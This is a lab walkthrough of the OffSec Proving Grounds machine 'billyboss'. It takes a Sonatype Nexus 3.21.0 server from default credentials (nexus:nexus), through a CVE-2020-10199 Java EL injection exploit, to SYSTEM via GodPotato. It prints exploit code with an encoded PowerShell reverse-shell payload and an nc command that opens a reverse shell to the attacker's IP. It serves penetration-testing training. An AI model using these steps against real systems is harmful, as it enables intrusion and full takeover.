


# billyboss — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

Sonatype Nexus 3.21.0 on port 8081 → Default credentials `nexus:nexus` → CVE-2020-10199 (Java EL Injection) authenticated RCE → Shell → GodPotato for NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.242.61
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | Microsoft ftpd |
| 80 | HTTP | Microsoft IIS 10.0 (BaGet) |
| 135,139,445| SMB/RPC | |
| 8081 | HTTP | Jetty 9.4.18 (Nexus Repository Manager 3.21.0-05) |

Port 80 hosts BaGet (a NuGet server for .NET), but the main focus shifts to Port 8081 hosting **Sonatype Nexus Repository Manager**.

---

## Exploitation — CVE-2020-10199 (Sonatype Nexus RCE)

Version 3.21.0 is vulnerable to an authenticated RCE ([EDB-49385](https://www.exploit-db.com/exploits/49385)). The vulnerability requires credentials.

The Nexus login portal encodes usernames and passwords in base64 before sending the POST request.


A quick `grep -r -i "sonatype"` across a default password list reveals standard defaults:
```text
Sonatype Nexus Repository Manager,admin,admin123
Sonatype Nexus Repository Manager,nexus,nexus
```

Logging in with `nexus:nexus` works!

We take the provided Python exploit and modify it to execute a PowerShell reverse shell:
```python
CMD='cmd.exe /c powershell -e JABjAGwAa...<base64_payload>...'
USERNAME='nexus'
PASSWORD='nexus'

# The exploit leverages Java EL injection in the repository settings:
body = {
    'name': 'internal',
    'online': True,
    'storage': {...},
    'group': {
        'memberNames': [
            '$\\A{\'\'.getClass().forName(\'java.lang.Runtime\').getMethods()[6].invoke(null).exec(\''+CMD+'\')}"'
        ]
    }
}
```

Run the script and the listener pops! 

---

## Privilege Escalation — GodPotato

Checking user privileges:
```cmd
whoami /priv
```


The account has `SeImpersonatePrivilege` enabled. Since this is an IIS/Web application context, this is extremely common.

We transfer `GodPotato-NET4.exe` and `nc64.exe` to `C:\windows\tasks\` and run:

```cmd
.\GodPotato-NET4.exe -cmd "C:\windows\tasks\nc64.exe 192.168.45.206 6969 -e cmd"
```

A new shell connects as **NT AUTHORITY\SYSTEM**. 🎉

---

## Key Takeaways

- **Default Credentials:** Always check default passwords. `nexus:nexus` and `admin:admin123` are standards for Nexus.
- **Base64 Auth:** If a login form base64-encodes payloads, use tools (like Hydra with custom filters or custom Python scripts) to accommodate this formatting.
- **SeImpersonatePrivilege:** Web services (IIS, Tomcat, Jetty) on Windows almost always run with service accounts holding `SeImpersonate`. GodPotato/PrintSpoofer are instant wins.

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
